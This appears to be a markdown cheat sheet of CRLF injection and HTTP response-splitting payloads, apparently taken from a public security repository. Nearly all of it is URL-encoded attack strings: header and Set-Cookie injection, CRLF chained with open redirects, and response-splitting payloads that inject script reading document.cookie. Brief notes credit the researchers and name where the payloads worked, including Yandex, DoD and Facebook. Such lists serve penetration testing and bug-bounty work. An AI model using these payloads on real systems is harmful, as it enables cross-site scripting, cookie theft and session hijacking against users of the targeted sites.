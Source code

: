 ## CRLF Injection || HTTP Response Splitting

```
%0dSet-Cookie:csrf_token=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx;
```

**Header-based test, site root**

```
%0d%0aheader:header
```
```
%0aheader:header
```
```
%0dheader:header
```
```
%23%0dheader:header
```
```
%3f%0dheader:header
```

**CRLF chained with Open Redirect server misconfiguration**

_Note:_ This sometimes works. (Discovered in some Yandex sites, was not exploitable from the root.)

```
//www.google.com/%2f%2e%2e%0d%0aheader:header
```
```
/www.google.com/%2e%2e%2f%0d%0aheader:header
```
```
/google.com/%2F..%0d%0aheader:header
```

**Twitter specific CRLF** by [@filedescriptor](http://blog.innerht.ml/twitter-crlf-injection/)

```
%E5%98%8A%E5%98%8Dheader:header
```

**CRLF Injection to XSS**

```
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
```

**Response splitting on 302 Redirect, before Location header** (Discovered in DoD)

```
%0d%0aContent-Type:%20text%2fhtml%0d%0aHTTP%2f1.1%20200%20OK%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert('XSS');%3C%2fscript%3E
```

**Response splitting on 301 code, chained with Open Redirect to corrupt location header and to break 301** by [@black2fan](https://twitter.com/black2fan) (Facebook bug)

_Note:_ `xxx:1` was used for breaking open redirect destination (Location header). Great example how of to escalate CRLF to XSS on a such, it would seem, unexploitable 301 status code.

```
%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../tr
```
